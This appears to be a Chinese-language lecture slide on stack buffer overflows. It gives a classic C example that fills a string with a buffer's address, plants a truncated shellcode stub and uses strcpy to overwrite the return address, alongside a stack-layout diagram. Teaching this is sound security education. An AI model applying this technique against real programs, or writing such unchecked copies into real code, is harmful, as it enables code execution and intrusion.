

# 栈溢出攻击示例
char shellcode[] = “\xeb\x1f\x……”;
char large_string[128];//溢出串

int main(int argc, char **argv){
    char buffer[96];//目标缓冲区
    int i;
    long *long_ptr = (long *) large_string;

    for (i = 0; i < 32; i++) //先写满地址
        *(long_ptr + i) = (int)buffer;
    for (i = 0; i < (int) strlen(shellcode); i++)
        large_string[i] = shellcode[i];//植入代码
    strcpy(buffer, large_string);//溢出
    return 0;
}
高地址
Para1

Para2
…
Return add
…
Return add
Return add
Return add
Return add

Buffer
(96bytes)

shellcode
i
long_ptr
低地址
不能精确定位返回地址
用buffer地址填满large_string（shellcode+ret add）
235